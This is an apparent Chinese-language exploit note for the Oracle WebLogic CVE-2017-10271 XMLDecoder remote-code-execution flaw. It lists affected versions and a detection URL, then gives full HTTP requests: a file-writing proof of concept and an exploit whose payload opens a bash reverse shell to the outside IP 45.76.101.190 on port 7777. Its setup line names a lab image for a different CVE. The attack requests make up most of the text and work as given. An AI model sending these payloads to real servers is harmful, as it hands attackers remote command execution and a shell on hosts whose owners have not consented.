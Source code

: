 # 相关
CVE-2017-10271
- 受影响版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
- 漏洞描述：WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。
- 漏洞检测：访问http://host:7001/wls-wsat/CoordinatorPortType返回如下，则可能存在此漏洞
![title](https://i.loli.net/2019/05/20/5ce24e619807844967.jpg)

# 验证环境搭建
使用vulhub的cve-2018-2628搭建

# POC
通过写入一个文件的形式进行简单验证
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 748

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>hello_world</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```
写入的路径是`~/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt`
访问验证的路径是`/wls-wsat/test.txt`
# EXP
反弹shell
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.203.87.64:7001
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope
    xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext
            xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/45.76.101.190/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start"/></void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```